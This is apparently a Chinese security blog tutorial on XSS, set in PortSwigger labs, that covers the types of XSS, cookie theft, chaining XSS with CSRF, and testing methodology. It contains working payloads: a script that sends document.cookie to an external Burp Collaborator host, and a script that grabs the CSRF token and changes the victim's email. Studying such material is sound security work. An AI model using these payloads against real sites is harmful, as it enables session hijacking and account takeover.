 ```yaml
---
title: "XSS 漏洞知解 123"
author: Neal
tags: [reflection xss,xss]
keywords: [xss,web安全,渗透测试,反射型XSS,存储型XSS]
categories: [web安全]
date: "2020-03-05" 
---
```


跨站脚本攻击（Cross-Site Scripting），为了避免与 CSS 混淆，一般简称为 XSS。XSS 作为一种典型的主要可以分为 3 种：

* 反射型 XSS
* 存储型 XSS
* DOM 型 XSS

关于这 3 种 XSS 类型的区别，在这就不展开了，本文主要讲解 XSS 漏洞的利用场景以及如何测试反射型 XSS，当然反射型 XSS 漏洞的测试和其它 XSS 漏洞类型的测试存在很多共同之处的。通常来说，通过 XSS 漏洞攻击者可以在受害者机器上执行任何脚本的话，包括：

* 可以执行受害者可以执行的任何操作
* 可以浏览受害者可以浏览的任何内容
* 可以修改受害者可以修改的任何信息
* 可以通过最初的受害者与应用中其他用户交互，从而发起对其他用户的攻击

不过值得注意的是，反射型 XSS 总漏洞利用过程中也会遇到较多的障碍，经常可能会遇到很多限制：

* cookie 设置为 httponly，无法通过 JS 直接操控 cookie
* 用户输入的内容被进行过滤或者编码
* 受害者可能并没有登录应用，或者应用用户会话与特定的因素有绑定关系，比如 IP 地址或者 MAC 地址，这种情况比较少见

## 典型利用场景

XSS 的利用场景其实是五花八门的，可以说只要你敢想，搞不好你就可以做得到。这里，我们可以选择两个最典型的利用场景进行讲解。在这里我主要使用 PortSwigger 的应用安全学院里面的 lab 进行讲解。

### 盗取 cookie

通过 XSS 漏洞盗取 cookie 可以说是最典型的利用场景了。不过现在随着 HttpOnly 的广泛应用，这一利用场景也产生了一些限制。但是 HttpOnly 也并不能完全保证 XSS 漏洞的防范，因为 HttpOnly 理论上应该覆盖所有的敏感 cookie，如果有一处没有覆盖到，就有被攻击的可能性。另外一方面，通过结合 CORS 也有突破限制的可能性。还有一个实际情况是，仍然有很多应用并没有使用 HttpOnly，本节也主要是针对这一情形的具体利用。

假设有一个博客平台，目前我们已经发现博文的评论处存在存储型 XSS 漏洞。那么如果其它用户打开这一篇博文，就可以通过这个漏洞让这名用户执行任意 JS 脚本，基本上就可以进行任何操作。如果这一名用户是管理员的话，那么危害性就更大，理论上这个管理用在这个博客可以执行的任何操作，攻击者都可以实现。这个攻击场景主要分为三步：

1. 攻击者创建一个 Web 服务，需要保证受害者和这个服务之间是连通的。
2. 注入 XSS 的 payload，实现通过 JS 获取受害者 cookie，并发送给攻击者创建的服务
3. 攻击者通过获取的 cookie 则可以成为应用的合法用户并执行任何操作

创建 web 服务非常简单，可以使用 python 命令既可以创建服务，`python -m SimpleHTTPServer 80`。这样就可以指定一个监听 80 端口的 web 服务。其实 Burp 提供了一个非常实用的利用功能，通过 Burp Collobrator Client 就可以创建一个开放在外网的 web 服务，这样如果你在日常测试中，就无须自己准备一个带有固定 IP 的服务器来创建服务了。

![3ExZJH.png](https://s2.ax1x.com/2020/02/19/3ExZJH.png)

![3Exlef.png](https://s2.ax1x.com/2020/02/19/3Exlef.png)

进入到 Collobrator Client，点击 Copy to clipborad 就可以将服务地址复制到剪切板。我们可以使用 curl 来进行测试：

![3tuMAU.gif](https://s2.ax1x.com/2020/02/25/3tuMAU.gif)

我们可以看到在 client 中可以看到 DNS 请求以及相应的 HTTP 请求，这样通过 Collobrator Client 就不需要在外网自己的服务器下搭建服务。让我们继续重现上面的利用过程，首先我们先准备好要利用的 XSS 的 payload：

```
<script>
fetch('https://d8mzva8z7ou9zrnqkgz49jltyk4asz.burpcollaborator.net',{
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
})
</script>
```

然后我们只需要在 Collobrator Client 等待请求过来，不出意外的话，我们可以看到 administrator 的 cookie。

![3ax38K.png](https://s2.ax1x.com/2020/02/27/3ax38K.png)

下面我们只需要打开浏览器开发者工具，总控制台中输入 `document.cookie = 'session=Xn8ow3pdmd6LWktVZPJtBlI9yKzIKUX3'`，刷新一下页面，我们就成为管理员了。

![3axGvD.png](https://s2.ax1x.com/2020/02/27/3axGvD.png)

### 通过 XSS 来实现 CSRF

上述的攻击手法有一定的限制之处，而且容易被受害者发现。而配合 CSRF 漏洞，攻击者可以实现执行受害者可以执行的任何操作，并且隐秘性更强。比如我们可以修改用户的邮箱，从而可以充值用户密码。如果受害者是管理员的话，甚至往往可以实现添加用户，删除用户。CSRF 漏洞的防御机制一般是通过 token 来进行防御，但是如果你的应用有 XSS 漏洞，那么这种防御机制就会失效，因为通过 JS 我们就可以获取 token。下面继续通过一个 lab 来演示这种类型的攻击方式：

这个 lab 和之前的一样，这一次我们需要通过 XSS 漏洞来配合 CSRF 漏洞来实现修改受害者的邮箱。首先我们可以通过一个普通用户登录应用，然后发现有一个可以修改邮箱的功能。

![3cJFkq.png](https://s2.ax1x.com/2020/03/01/3cJFkq.png)

通过 Burp 可以捕获修改邮箱的请求：

```
POST /email/change-email HTTP/1.1
Host: acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Connection: close
Content-Length: 57
Cache-Control: max-age=0
Origin: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net/email
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,ja;q=0.7,zh-TW;q=0.6
Cookie: session=J7wtDYrnotYBeGxHRbxRQAjwWoER6iPb

email=bbb%40bbb.com&csrf=xmLrs2P4dtFVurZlCUVpJsBnvaGlL4T1
```

可以看到这个修改邮箱的请求包含两个参数，即 `email` 以及 `csrf`，很明显，这个请求是使用了 CSRF 防御的。那么现在可以思考一下如何来执行 CSRF。

1. 首先请求修改邮箱功能的页面，获取页面响应。
2. 在页面响应中匹配 csrf，然后提交修改邮箱的 POST 请求。

![3ctH0J.png](https://s2.ax1x.com/2020/03/01/3ctH0J.png)

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = function() {
    var csrf = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open("POST", "/email/change-email", true);
    changeReq.send("csrf=" + csrf + "&email=hack@hack.com");
}
req.open("GET", "/email", true)
req.send()
</script>
```

只要把上述的 payload 提交到 comment 中，然后提交，就可以实现任何访问这个博客评论的用户都会成为受害者，将其邮箱修改为 `hack@hack.com`。

## XSS 漏洞的测试

接下来可以聊一聊如何测试 XSS 漏洞。不管是手工测试亦或是现在比较流行的被动扫描器的自动化类型的测试，其测试方式基本也是差不多的。

* 测试每一个输入点，每一个 HTTP 请求的输入点都是可以进行测试的，包括 URL 中的参数，以及 BODY，其实 HTTP 头也可以进行测试，不过在实际中，通过请求头的参数来触发 XSS 漏洞的不是太常见。
* 通过输入点提交随机字符串，这么多的目的主要是为了验证通过输入点的 payload 是否影响最终的响应。这里，其实对于自动化类型的测试还有一个小技巧，就是可以在随机字符串中可以去包含一些特殊符号，从而判断应用有没有对相应的符号进行转义，比如单引号、尖括号之类的。
* 找到 payload 在响应中的上下文。这一点其实比较重要的，这关系到你该如何去利用 XSS 漏洞。因为输入点映射在不同的位置，会影响到漏洞的利用方式。比如你的输入点的 payload 可以对应于 HTML 标签中、HTML 标签中的属性，或者是映射到 JS 文件中，通过这些，你可以更好地知道如何去利用 XSS 漏洞。
* 下面就是利用一些常见的 XSS payload 来进行测试，这里可以推荐 Burp 提供的 [XSS payload](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)。里面对于不同的浏览器，不同的标签，甚至不同的属性，都有对应的 payload。当然，很有可能这些 payload 并不能直接成功，这个时候可能还需要结合上一点一起看一看来做相应的调整。不过这个 cheetsheet 里面可能已经足够了，可能还是最终没有找到合适的 payload。

对于漏洞的验证，人工测试往往比较直观，大多数都是通过 `alert` 弹窗的形式来验证漏洞是否存在。而对于自动化的漏洞测试工具而言，对于 XSS 漏洞的验证方式可能就会稍微复杂一点，包括验证响应的 `Content-Type`，然后接着验证输入点的输入是如何作用于响应中，通过对响应的解析从而验证漏洞是否利用成功。另外还有一种方式是通过 headless 浏览器去实现，让后来监听弹窗事件，这种测试方式接近于人工测试，但也更加消耗时间和性能。

## 总结

XSS 漏洞作为 Web 应用最为典型的漏洞之一，屡出不鲜。因为 XSS 的漏洞往往要考虑很多因素，包括转义、过滤、以及考虑到应用自身业务的需求，从而避免业务需求和防御需求的冲突。并且防御必须覆盖到应用的每一个输入点，即使仅有一个输入点存在漏洞，应用就存在被攻破的可能性。

## Reference

* https://portswigger.net/web-security/cross-site-scripting

